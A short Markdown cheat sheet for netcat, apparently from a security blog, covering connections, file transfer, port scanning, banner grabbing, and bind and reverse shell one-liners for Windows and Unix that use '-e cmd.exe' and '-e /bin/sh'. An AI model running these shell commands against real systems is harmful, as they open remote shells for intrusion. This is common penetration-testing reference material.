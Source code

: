 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


# Usage
***
Insert picture here

# Basic  
***
**TCP Port - Connecting**  
`nc -nv <IP> <PORT>`

**TCP Port - Listening**  
`nc -lvp <PORT>`

**Connect and return HTTP Page**  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**  
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**  
`echo "" | nc -nv -w1 <IP Address> <Ports>`

# Windows  
***
**Bind Shell**  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

**Reverse Shell**  
`nc -lvp 443 # Attacking Machine - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - Sending`

# Nix  
***
**Bind Shell**  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

**Reverse Shell**  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`


# Additional Resources  
***
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
